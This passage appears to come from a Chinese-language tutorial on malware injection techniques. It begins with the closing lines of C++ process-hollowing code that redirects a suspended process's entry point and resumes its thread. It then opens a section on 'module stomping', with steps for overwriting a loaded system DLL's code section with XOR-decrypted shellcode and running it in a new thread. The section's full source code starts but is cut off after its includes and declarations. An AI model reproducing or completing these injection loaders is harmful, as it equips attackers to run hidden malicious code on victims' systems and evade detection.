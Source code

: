 ```cpp
    ctx.Rcx = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint);
    WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);
#endif
    //将eax寄存器设置为注入软件的入口点
#ifdef _X86_
    ctx.Eax = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint);
    WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);
    /*
    lea eax
    call eax
    */
#endif
    SetThreadContext(pi.hThread, &ctx); // 设置线程上下文
    ResumeThread(pi.hThread); // 恢复挂起线程
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
    return 0;
}
```



# 16.模块践踏

## 简介

模块践踏通常涉及到选择一个已经加载到内存中的模块，然后覆盖或替换这个模块的部分内容，通常是其.text段（代码段），以实现恶意代码的注入



## 实现思路

1. 在内存中加载srvcli.dll模块，并找到这个模块在内存中的地址。
2. 定义了一个包含加密后shellcode的数组（encryptedShellcode）和一个密钥（key）。此shellcode是以异或加密的形式给出的。
3. 创建一个新的数组（shellcode），用于存储解密后的shellcode。使用给定的密钥对加密的shellcode进行解密。
4. 调用`NtProtectVirtualMemory`函数改变选定内存区域的保护属性，将其改为可读写。
5. 使用`RtlMoveMemory`函数将解密后的shellcode复制到目标模块（srvcli.dll）在内存中的地址。
6. 使用`NtProtectVirtualMemory`函数恢复原来的内存保护属性。
7. 创建一个新线程来执行注入的shellcode。新线程的入口点设置为shellcode的内存地址。
8. 调用`NtWaitForSingleObject`等待新创建的线程执行完毕。



## 完整代码

```cpp
#include <Windows.h>
#include <stdio.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment(lib, "ntdll")
#define NtCurrentProcess() ((HANDLE)-1)
#define DEFAULT_BUFLEN 4096
#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#endif

WCHAR* slib = (WCHAR*)L"C:\\Windows\\system32\\srvcli.dll";
EXTERN_C NTSTATUS NtAllocateVirtualMemory(
	HANDLE ProcessHandle,
```